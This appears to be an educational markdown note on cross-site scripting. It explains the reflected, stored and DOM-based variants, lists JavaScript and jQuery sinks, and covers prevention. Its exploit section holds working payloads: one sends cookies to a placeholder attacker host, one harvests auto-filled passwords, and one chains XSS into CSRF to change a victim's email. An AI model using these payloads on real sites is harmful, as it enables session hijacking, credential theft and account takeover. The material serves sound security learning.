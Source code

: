 # Cross-site scripting (XSS) :twisted_rightwards_arrows:

Allows an attacker to masquerade as a victim user and perform actions on their behalf.  Works by injecting malicious scripts into a website that execute in the victim's browser.

To test for XSS, inject the JavaScript `alert()` or `print()` function to see if they execute.  If yes, then XSS is possible.

:warning: Note that `print()` is now preferable as some browsers are disabling `alert()`.

## Reflected XSS

Malicious script comes from the current HTTP request:
```html
<!-- link: https://insecure-website.com/status?message=<script>print()</script> -->
<p>Status: <script>print()</script></p>
```

If the user follows the above URL, the script will execute in their browser.

### Impact

- Perform any action on behalf of the victim with their current session
- View and modify any data the victim can view/modify
- Initiate attacks on other users that will appear to come from the victim

### Limitations

The malicious URL must be delivered to the victim, and executed by them in a context where it can cause damage (e.g. in an authenticated session).

Delivery can be via infected links on other sites, email, text, social media, etc.

## Stored XSS

Persistent or second-order XSS.  Caused by a malicious script being stored and executed by the victim in the future.  An example is a malicious comment on a blog post.

Safe comment:

```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net
```

Malicious comment:

```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E&name=Carlos+Montoya&email=carlos%40normal-user.net
```

### Impact

- Same impacts as reflected XSS with added benefits of:
   - Attacker does not need to find an external method to have the user visit a malicious URL.  They wait for the user to visit the vulnerable site.
   - User will likely be logged in when the malicious script executes.

## DOM-based XSS

Similar to reflected XSS, but the malicious script is injected into the DOM and executed in a sink that runs JavaScript.

Common sinks include:

```javascript
eval()
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```

jQuery sinks:

```javascript
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```

Examples of injections:

```javascript
document.write('... <script>alert(document.cookies)</script> ...');
element.innerHTML='... <img src=1 onerror=alert(document.domain)> ...'
```

### Impact

- Same as reflected XSS
- Can also be triggered as stored XSS depending on how the stored attack is injected into the DOM.

## Exploit

### Stealing cookies

Steal the user's site cookies, inject them into a new browser session and perform actions on their behalf.

```javascript
// Inject into a link the user will click
<script>
fetch('https://attacker-comain.com', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
});
</script>
```

#### Limitations:

- User must have an active session
- Application may have blocked JavasScript cookie access with `HttpOnly` flag.
- User session may have additional protections (CSRF, MFA, IP based restrictions).
- User session may time out before it can be hijacked.

### Capturing passwords from password managers

If a password manager is installed, the password field will be pre-filled with the user's password.  This can then be sent back to the attacker.

```html
<!-- Create a a content post (e.g. comment on a blog).
     The password manager will auto-fill these when the page loads. -->
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://attacker-domain.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

#### Limitations:

- User must have a password manager installed.
- If MFA is enabled on the user's account, the attack becomes more difficult.

### Use XSS to perform CSRF

Perform actions on behalf of a user, such as changing their account email and then triggereing a password reset to gain access.

```html
<!-- Create a a content post (e.g. comment on a blog).
     Trigger a change email request when the page loads. -->
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=attacker@naughty.com')
};
</script>
```

## Prevent

- Filter all input as strictly as possible.
- Encode data when output to prevent it being interpreted as HTML.
- Use reponse headers to prevent XSS with `Content-Type` and `X-Content-Type-Options` if the response is not HTML.
- Use a Content Security Policy (CSP) to prevent the execution of malicious scripts.
- Do not output untrusted input into JavaScript sinks.

## Tools

- [Burp Collaborator (pro)](https://portswigger.net/burp/documentation/collaborator)

## References

- https://portswigger.net/web-security/cross-site-scripting
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
- https://portswigger.net/research/alert-is-dead-long-live-print
